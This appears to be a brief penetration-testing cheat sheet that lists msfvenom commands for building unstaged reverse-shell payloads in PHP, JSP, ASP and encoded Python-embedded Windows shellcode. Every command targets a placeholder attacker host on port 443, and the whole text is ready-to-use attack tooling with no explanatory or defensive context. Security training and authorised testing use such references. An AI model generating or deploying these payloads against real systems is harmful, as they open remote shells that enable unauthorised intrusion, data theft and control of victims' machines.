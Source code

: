 # Msfvenom

## Unstagged

### PHP
```
msfvenom -p php/reverse_php LHOST=x.x.x.x LPORT=443 -f raw > reverse_tcp_443_unstaged.php
```

### JAVA
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=x.x.x.x LPORT=443 -f raw > ./shell.jsp
```

### ASP
```
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=443 -f asp > reverse_tcp_443_unstaged.asp
```

### For payload inside py file
```
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=443 -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -f py
```

